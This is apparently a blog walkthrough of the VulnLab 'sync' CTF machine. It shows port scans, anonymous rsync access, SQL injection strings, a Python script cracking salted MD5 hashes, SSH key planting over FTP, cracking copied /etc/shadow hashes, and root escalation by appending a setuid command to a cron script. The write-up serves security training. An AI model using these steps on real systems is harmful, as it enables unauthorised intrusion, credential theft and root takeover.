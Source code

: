 ```yaml
---
layout: post
title:  "VulnLab | sync"
description: "Walkthrough of sync machine, an easy rated box from VulnLab"
date: "2024-11-15"
pin: true
image:
  path: ../assets/img/ctf/vulnlab/sync/sync1.png
  alt: "sync.vl"
category: "VulnLab"
tags: ["Linux", "rsync", "linux password cracking" ,"scheduled task"]
---
```


## Introduction
------------------------------------------------------------------------------------------
[sync](https://www.vulnlab.com/machines) is an easy rated linux box from vulnlab. The machine has 4 ports opens: 21, 22, 80, 873 respectively running a vsftpd, ssh, Apache2 and rsync. To gain initial foothold you would have to abuse the anonymous acccess to the shared folder provided by the rsync service. Within this folder, you’ll find a backup of the source code of the app running on port 80. Next read users hashes in the sqlite database and by understanding the hashing logic crack `triss` user password. The privilege escalation on the other hand invole cracking `/etc/shadow` passwords found at `/backup` and modifying a scheduled task running as root.

------------------------------------------------------------------------------------------


## Enumeration

### All Open Ports
```bash
rustscan -a 10.10.109.129
```
![rustscan](./assets/img/ctf/vulnlab/sync/sync2.png)

### Services Scanning
```bash
nmap -p21,22,80,873 -sC -sV -v -oN sync.full 10.10.109.129
```
```text
# Nmap 7.94SVN scan initiated Tue Nov 12 19:24:04 2024 as: nmap -p21,22,80,873 -sC -sV -oN sync.full 10.10.109.129
Nmap scan report for 10.10.109.129
Host is up (0.047s latency).

PORT    STATE SERVICE VERSION
21/tcp  open  ftp     vsftpd 3.0.5
22/tcp  open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 de:c3:31:3b:fa:9e:9c:02:20:90:d7:66:9f:22:3c:e8 (ECDSA)
|_  256 14:95:db:f5:fd:46:3f:c8:72:05:ca:6d:0b:3b:fc:92 (ED25519)
80/tcp  open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Login
|_http-server-header: Apache/2.4.52 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
873/tcp open  rsync   (protocol version 31)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Nov 12 19:24:14 2024 -- 1 IP address (1 host up) scanned in 10.75 seconds
```

### Hostname
```bash
echo '10.10.109.129  sync.vl'  >> /etc/hosts
```

## Foothold

### Port 80
![web](./assets/img/ctf/vulnlab/sync/sync3.png)
```bash
ffuf -c -u http://sync.vl/FUZZ -w /usr/share/wordlists/dirb/commons.txt -e .php
```
![ffuf](./assets/img/ctf/vulnlab/sync/sync4.png)

### Port 873
```bash
rsync sync.vl::
rsync -av --list-only  rsync://sync.vl/httpd 
```
![rsync](./assets/img/ctf/vulnlab/sync/sync5.png)

```bash
rsync -av rsync://sync.vl/httpd ./rsyn_shared
```
![rsync](./assets/img/ctf/vulnlab/sync/sync6.png)

```sql
sqlite3 site.db
select * from users;
```
![rsync](./assets/img/ctf/vulnlab/sync/sync7.png)
```php
$username = $_POST['username'];
$password = $_POST['password'];

$hash = md5("$secure|$username|$password");
$db = new SQLite3('../db/site.db');
$result = $db->query("SELECT * FROM users WHERE username = '$username' AND password= '$hash'");

$row = $result->fetchArray(SQLITE3_ASSOC);
```
Reading this portion of the app code we can identify that 2 things:
1. There is an SQL Injection, the username from client side is concatened directly in the SQL query.
```text
admin' or 1=1-- -
triss' or 1=1-- -
```
![sqli](./assets/img/ctf/vulnlab/sync/sync8.png)

2. The hashing algorithm used is md5 and a secured string concatenated with the username is used as salt. knowing this salt gives us an opportunity to recover users passwords. I have tried to crack with hashcat and jtr but failed, i guess i'm missing something. I then decided to write a simple python script to achieve it and that worked.

```python
import hashlib

secure = "6c4972f3717a5e881e282************"
username = "triss"
hash_to_crack = "a0de4d7f81676c3ea**********"
known_string = f"{secure}|{username}|"

def generate_md5_hash(password):
    full_string = known_string + password
    return hashlib.md5(full_string.encode()).hexdigest()
    
def dictionary_attack(wordlist):
    with open(wordlist, 'r') as file:
        for line in file:
            password = line.strip()
            if generate_md5_hash(password) == hash_to_crack:
                print(f"Password found: {password}")
                return password
    print("Password not found in wordlist.")

wordlist = "/usr/share/wordlists/rockyou.txt"
dictionary_attack(wordlist)
```
![triss password](./assets/img/ctf/vulnlab/sync/sync9.png)

### Port 21
```bash
ftp sync.vl
```
![ftp](./assets/img/ctf/vulnlab/sync/sync10.png)

```sh
ssh-keygen
cp id_rda.pub authorized_keys
mkdir .ssh
cd .ssh
put authorized_keys
```
![authorized_keys](./assets/img/ctf/vulnlab/sync/sync11.png)

### Port 22
```bash
chmod 600 id_rsa
ssh -i id_rsa triss@sync.vl
```
![ssh](./assets/img/ctf/vulnlab/sync/sync12.png)


## Privilege Escalation
```text
> linpeas output

/usr/local/bin/backup.sh 
/backup

> pspy64 output
```
![ssh](./assets/img/ctf/vulnlab/sync/sync13.png)

```bash
> /usr/local/bin/backup.sh content

#!/bin/bash
mkdir -p /tmp/backup
cp -r /opt/httpd /tmp/backup
cp /etc/passwd /tmp/backup
cp /etc/shadow /tmp/backup
cp /etc/rsyncd.conf /tmp/backup
zip -r /backup/$(date +%s).zip /tmp/backup
rm -rf /tmp/backup
```

```bash
unzip -d data data.zip
cp data/tmp/backup/passwd passwd.txt
cp data/tmp/backup/shadow shadow.txt
unshadow passwd.txt shadow.txt  > unshadowed.txt
```
![data.zip](./assets/img/ctf/vulnlab/sync/sync14.png)

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt
john --format=crypt --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt
```
![jtr](./assets/img/ctf/vulnlab/sync/sync15.png)

```bash
su sa
id
```
![sa](./assets/img/ctf/vulnlab/sync/sync16.png)

```bash
ls -la /usr/local/bin/backup.sh 
echo 'chmod +s /bin/bash'  >> /usr/local/bin/backup.sh 
```
![backup.sh](./assets/img/ctf/vulnlab/sync/sync17.png)
```sh
ls -la /bin/bash
/bin/bash -p
```
![root](./assets/img/ctf/vulnlab/sync/sync17.png)


## Kill Chain Summary
1. rsync anonymous access.
2. reading the registration code understand the hashing mechanism and crack triss password.
3. using triss creds access the ftp server.
4. tris have write permission abuse this and add a public key to `.ssh/authorized_keys`.
5. connect to the box trought ssh as triss.
6. crack linux password (sa and jennifer) found in `/backup/date.zip`.
7. abuse the root task running `/usr/local/bin/backup.sh` since we as `sa` has write permission on `/usr/local/bin/backup.sh`.
8. NB: Someone could using `hydra` brute force `sa` password since it's very weak and then skip step 1 to 5.


## References
[rsync](https://hackviser.com/tactics/pentesting/services/rsync)<br>
[jtr shadow cracking](https://www.mohammedalani.com/tutorials/cracking-a-shadow-password-using-john-the-ripper/)
